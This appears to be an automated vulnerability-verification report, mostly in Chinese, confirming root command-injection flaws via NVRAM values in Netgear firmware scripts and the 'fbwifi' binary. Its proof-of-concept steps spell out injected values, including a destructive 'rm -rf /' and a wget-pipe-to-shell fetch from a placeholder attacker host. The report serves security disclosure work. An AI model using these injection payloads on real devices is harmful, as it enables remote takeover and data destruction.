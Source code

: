 ### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 警报描述准确。证据显示脚本 'ntgr_sw_api.rule' 在 'start' 和 'stop' case 的 while 循环中，使用 'config get' 读取 NVRAM 变量（如 'ntgr_api_firewall*'），并通过 'set $value' 分割为位置参数 $1、$2、$3，然后直接插入 'iptables' 命令中，没有输入验证或 shell 引用。这允许攻击者（拥有有效登录凭据）设置恶意 NVRAM 值，包含 shell 元字符（如分号），在脚本执行时触发命令注入。攻击链完整：输入可控（通过网络 API 或 NVRAM 设置）、路径可达（脚本以 'start' 或 'stop' 参数执行时进入循环）、实际影响（以 root 权限执行任意命令，可绕过防火墙或实现代码执行）。可重现的 PoC：1. 攻击者设置 NVRAM 变量，例如 'ntgr_api_firewall1' 值为 'eth0; echo "malicious" > /tmp/poc; #'。2. 执行脚本：/etc/scripts/firewall/ntgr_sw_api.rule start。3. 在 'iptables' 命令中，参数被插入为 'iptables -I INPUT -i eth0; echo "malicious" > /tmp/poc; # ...'，导致 'iptables' 命令被终止并执行 'echo "malicious" > /tmp/poc'，创建文件 /tmp/poc 作为证明。风险高，因为漏洞允许 root 级命令注入。

### Verification Metrics
- **Verification Duration:** 238.70 seconds
- **Token Usage:** 283980

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `bin/fbwifi`
- **Location:** `函数 fcn.000177bc 中的 system 调用点（地址 0x00017820、0x0001787c、0x000178d8、0x000178e0）`
- **Description:** 在函数 fcn.000177bc 中发现 NVRAM 相关命令注入漏洞。攻击链如下：- **输入点**：外部可控的 NVRAM 变量名或值通过函数参数（如 `r0`）传入。- **数据流传播**：参数用于构建命令字符串（通过 `fcn.0000fae4` 和 `fcn.0000fb50` 拼接），形成完整 shell 命令（如 'fbwifi_nvram set' 和 'fbwifi_nvram commit'）。- **危险操作**：构建的命令通过 system 函数执行（地址 0x00017820、0x0001787c、0x000178d8、0x000178e0）。- **触发条件**：攻击者控制输入参数（如设置恶意 NVRAM 变量），注入 shell 元字符（如分号或反引号）即可触发。- **可利用性分析**：缺少输入验证、过滤或转义，允许任意命令执行，导致系统妥协。
- **Code Snippet:**
  ```
  示例代码片段（从反汇编中提取）：
  0x000177ec: ldrb r1, [r4]          ; 加载输入参数
  0x000177f0: bl fcn.00017528        ; 处理字符
  0x00017800: bl fcn.0000fb80        ; 构建命令字符串
  0x00017820: bl sym.imp.system      ; 执行命令
  0x000178e0: bl sym.imp.system      ; 执行 'fbwifi_nvram commit'
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 安全警报准确描述了NVRAM命令注入漏洞。证据如下：1) 输入可控性：函数fcn.000177bc的参数（通过r0传入）被移动到r4，并直接用于构建命令字符串（如ldrb r1, [r4]），攻击者可通过控制输入参数注入恶意数据。2) 路径可达性：代码路径明确，通过字符串拼接函数（fcn.0000fae4、fcn.0000fb50、fcn.0000fb80）构建命令，最终传递给system函数执行。3) 缺乏验证：反汇编显示所有字符串构建函数仅进行拼接操作，未对输入进行验证、过滤或转义；函数fcn.00017528仅将输入转换为'true'或'false'字符串，不检查shell元字符。4) 实际影响：攻击者可注入shell元字符（如分号、反引号）执行任意命令，导致系统完全妥协。PoC步骤：作为已认证用户，通过设置恶意NVRAM变量（如变量值包含'; rm -rf /'或'`wget http://attacker.com/shell.sh -O - | sh`'），触发命令执行。例如，调用相关函数时传入恶意参数，即可在system调用中执行注入的命令。
